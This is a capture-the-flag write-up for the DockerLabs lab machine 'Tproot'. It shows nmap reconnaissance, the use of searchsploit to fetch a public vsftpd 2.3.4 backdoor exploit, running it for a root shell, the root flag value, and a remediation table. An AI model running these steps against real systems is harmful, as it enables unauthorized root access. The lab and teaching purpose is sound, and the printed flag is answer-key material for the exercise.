





# Tproot — DockerLabs Writeup

**Platform:** DockerLabs | **Difficulty:** Very Easy | **Target IP:** 172.17.0.2 | **Attacker IP:** 172.17.0.1

## Machine info



## Summary

**Tproot** is a Very Easy DockerLabs machine built around an outdated FTP service. Enumeration found vsftpd 2.3.4 on port 21 alongside a default, unmodified Apache page on port 80. vsftpd 2.3.4 is a known backdoored build with a public command execution exploit; running it against the target opened a shell with root privileges immediately, with no further privilege escalation required.

**Attack chain:** Reconnaissance → vsftpd 2.3.4 Identified → Apache Default Page Ruled Out → Public Backdoor Exploit (searchsploit) → Root

## 1. Reconnaissance

Confirmed connectivity to the target:



Full port scan with `nmap`:

```
nmap -p- -sS -sC -sV -vvv --open -oN scan.txt 172.17.0.2

PORT   STATE SERVICE REASON         VERSION
21/tcp open  ftp     syn-ack ttl 64 vsftpd 2.3.4
|_ftp-anon: got code 500 "OOPS: cannot change directory:/var/ftp".
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
```

vsftpd 2.3.4 is a known backdoored build, immediately standing out as the likely attack path.

## 2. Web Enumeration

Checked port 80 to rule out a web-based path:



The page is the stock Apache2 Ubuntu default page, completely unmodified — nothing to enumerate. The attack surface is the FTP service.

## 3. Exploitation

Searched for known exploits matching the vsftpd version:

```
searchsploit vsftpd 2.3.4

Exploit Title                                          |  Path
----------------------------------------------------------------------------
vsftpd 2.3.4 - Backdoor Command Execution               | unix/remote/49757.py
vsftpd 2.3.4 - Backdoor Command Execution (Metasploit)  | unix/remote/17491.rb
```

Downloaded and ran the exploit against the target:

```
searchsploit -m unix/remote/49757.py

python3 49757.py 172.17.0.2
Success, shell opened
Send `exit` to quit shell
whoami
root
id
uid=0(root) gid=0(root) groups=0(root)
```



The backdoor triggered immediately, granting a shell with root privileges — no privilege escalation step was needed. Confirmed by reading the root flag:

```
cat root.txt
261fd3f32200f950f231816b4e9a0594
```



**Flag:** `261fd3f32200f950f231816b4e9a0594`

## Root Cause & Remediation

| Issue | Fix |
|---|---|
| vsftpd 2.3.4 is a backdoored build vulnerable to unauthenticated command execution | Upgrade to an official, patched vsftpd release and verify binary/package checksums before deployment |
| Exploited service ran with root privileges, granting an immediate root shell | Run FTP service under a dedicated, non-privileged user account |
| Apache exposed with no hardening (default page left in place) | Replace or remove the default page; disable unused HTTP service if not required |
